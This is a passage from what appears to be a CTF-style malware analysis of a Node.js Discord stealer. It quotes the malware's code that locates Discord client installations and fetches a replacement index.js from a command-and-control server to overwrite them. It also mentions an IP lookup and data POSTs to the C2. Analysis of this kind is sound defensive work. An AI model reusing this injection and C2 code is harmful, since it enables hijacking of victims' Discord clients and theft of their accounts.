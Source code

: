 

The other thing it does towards the top is call `discordInjection`,
which I'll cover in the next section.

At the top, it also makes a request to <https://ipinfo.io/json>, which
returns information about the local computer's public IP (Task 6).

When there's POSTs of information to the C2, the `userr_id` from the
configuration is sent as the `duvet_id` (Task 8).

### Discord

#### Modify App

`discordInjection` is called from `newInjection` in the first of the
three blocks of main code. It loops over three folders in the AppData
directory, `Discord`, `DiscordCanary`, and `DiscordPTB`:



    async function discordInjection() {
        const infectedDiscords = [];

        [join(process.env.LOCALAPPDATA, 'Discord'), join(process.env.LOCALAPPDATA, 'DiscordCanary'), join(process.env.LOCALAPPDATA, 'DiscordPTB')]
        ?.forEach(async(dir) => {
    ...[snip]...
        });

        return infectedDiscords;
    };



For each, if it exists, it looks for a folder starting with `app-`, and
in it `modules` and in that `discord_desktop_core-1`:



            if(existsSync(dir)) {
                if(!readdirSync(dir).filter((f => f?.startsWith('app-')))?.[0]) return;
                const path = join(dir, readdirSync(dir).filter((f => f.startsWith('app-')))?.[0], 'modules', 'discord_desktop_core-1');
                const discord_index = execSync('where /r . index.js', { cwd: path })?.toString()?.trim();



If that exists, it adds it to the `infectedDiscords` list and requests a
new replacement file from the C2, writing it over the original
`index.js` file:



                
                if(discord_index) infectedDiscords?.push(
                    dir?.split(process.env.LOCALAPPDATA)?.[1]?.replace('\\', '')
                );

                const request = await fetch(options.api + 'injections', {
                    method: 'GET',
                    headers: {
                        duvet_user: options?.user_id,
                        logout_discord: options?.logout_discord
                    }
                });
